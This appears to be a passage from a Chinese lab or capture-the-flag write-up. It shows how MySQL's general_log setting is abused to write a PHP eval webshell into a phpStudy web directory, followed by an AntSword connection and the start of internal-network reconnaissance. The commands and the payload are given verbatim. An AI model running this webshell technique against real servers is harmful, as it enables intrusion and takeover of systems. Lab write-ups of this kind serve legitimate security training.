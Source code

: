 核心就是利用SQL查询相应条件是否满足并写入webshell

可以直接按照文章上的 二.开启全局日志getshell来打
`set global general_log = on;`
`set global general_log_file = 'C:/phpStudy/www/shell.php'`
然后写入webshell
`select '<?php eval($_POST[1]);?>'`

然后AntSword连接
`http://192.168.52.128/shell.php` 1

![img](Vuln_2瞎打版/images/image-4.png)

Windows的shell活久见🤣 而且一进去就是管理员权限

可以看到我们通过sql的日志记录写入的webshell
![img](Vuln_2瞎打版/images/image-5.png)

接下来就是Windows内网的信息收集了
虽说真不大会 不知道哪些对后面进一步内网渗透有用...


ip信息收集:
```
ipconfig /all
```
